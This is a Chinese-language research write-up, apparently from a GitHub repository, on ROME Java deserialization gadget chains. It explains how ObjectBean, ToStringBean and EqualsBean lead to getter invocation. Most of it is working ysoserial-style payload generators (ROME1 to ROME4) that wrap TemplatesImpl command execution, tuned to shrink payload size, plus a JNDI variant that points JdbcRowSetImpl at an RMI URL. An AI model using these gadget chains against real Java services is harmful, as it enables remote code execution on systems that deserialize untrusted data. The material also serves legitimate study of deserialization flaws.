





# ROME

## 0x00 相关类介绍

### ObjectBean

`com.sun.syndication.feed.impl.ObjectBean` 是一个用于处理 Java Beans 的通用工具类，该类使用委托模式设计，使用了 `CloneableBean`、`EqualsBean` 和 `ToStringBean` 这三个辅助类，以实现相关方法。



而 `hashCode()` 方法会调用 `EqualsBean#beanHashCode()` 方法，并调用保存的 _obj 对象的 `toString()` 方法



### ToStringBean

这个类是对象转化为字符串表示的辅助类，这个类存在两个 `toString()` 方法，无参 `toString()` 将 `_obj` 对象名处理后传入另一个 `toString()` 方法中。



另一个方法反射调用所有 getter 方法。



## 0x01 ROME1

最终 ROME1 写成如下比较好理解的形式

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ObjectBean delegate = new ObjectBean(Templates.class, templates);
    // 目的是通过 root 的 hashCode() 方法触发 ObjectBean 的 toString() 方法，先使用一个无害类
    ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "Whoopsunix"));

    HashMap map = new HashMap();
    map.put(root, "Whoopsunix");
    Reflections.setFieldValue(root, "_equalsBean", new EqualsBean(ObjectBean.class, delegate));

    return map;
}
```

最终反序列化的 kick-off map 只需要放一个类，而在 ysoserial 用的 `Gadgets.makeMap()` 实现的，put 两次会执行两次。

## 0x02 ROME2

之前我们分析过 `BadAttributeValueExpException` 同样能触发 `toString()` ，因为 `ObjectBean` 的构造方法会对 `CloneableBean`、`EqualsBean` 和 `ToStringBean` 这三个辅助类都赋值，所以可以直接触发 `ObjectBean#toString()` 。

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ObjectBean delegate = new ObjectBean(Templates.class, templates);
    BadAttributeValueExpException b = new BadAttributeValueExpException("");
    Reflections.setFieldValue(b, "val", delegate);
    return b;
}
```

## 0x03 ROME3

在实例化 ObjectBean 时，会将三个辅助类都实例化，生成的 payload 太长了，有 byte length: 2030

继续分析后可以进一步压缩，首先是可以直接删除 `ObjectBean.toString()` ，通过 `ToStringBean.toString()` 来调用，降到 byte length: 1570

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
    EqualsBean root = new EqualsBean(ToStringBean.class, toStringBean);

    return Gadgets.makeMap(root, root);
}
```

但我们的最终目的是通过 `pReadMethod.invoke()` 来调用 getter，实际上在 `EqualsBean#beanEquals()` 中也存在对于 getter 的调用，所以可以写出一条更短的新链路，## byte length: 1555

这个调用链的思路和 CC7 比较类似，一样是用到了 `equals()` 方法，比较类似就不赘述了，直接给出调用链。再次强调一下使用  `equlas()` 触发时对于 map 插入的先后顺序有要求，是用 (后插入Map的 value).equals(先插入的value) 

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    EqualsBean bean = new EqualsBean(String.class, "");

    Map map1 = new HashMap();
    map1.put("aa", templates);
    map1.put("bB", bean);

    Map map2 = new HashMap();
    map2.put("aa", bean);
    map2.put("bB", templates);

    Map map = new HashMap();
    map.put(map1, "x");
    map.put(map2, "x");

    Reflections.setFieldValue(bean, "_beanClass", Templates.class);
    Reflections.setFieldValue(bean, "_obj", templates);

    return map;
}
```

我们可以看到 ROME3 这条链子相比最初缩短方案中用 ToStringBean 替换 ObjectBean 的方案并没有短很多，而且会触发报错，所以将最开始的方案保留为 ROME4



### Gadget Chain

```
HashMap.readObject()
    AbstractMap.equals()
        EqualsBean.equals()
            EqualsBean.beanEquals()
            		TemplatesImpl.getOutputProperties()
```

## 0x04 ROME4

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
    EqualsBean root = new EqualsBean(ToStringBean.class, toStringBean);

    return Gadgets.makeMap(root, root);
}
```

如果使用 JNDI 还可以进一步压缩到 byte length: 1499 ！！！，少于 1500 了

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    // 进一步压缩
    String url = "rmi://127.0.0.1:1099/umaghq";
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(url);
    rs.setMatchColumn("x");
    Field listeners = javax.sql.rowset.BaseRowSet.class.getDeclaredField("listeners");
    listeners.setAccessible(true);
    listeners.set(rs, null);

    ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
    EqualsBean root = new EqualsBean(ToStringBean.class, item);

    return Gadgets.makeMap(root, root);
}
```

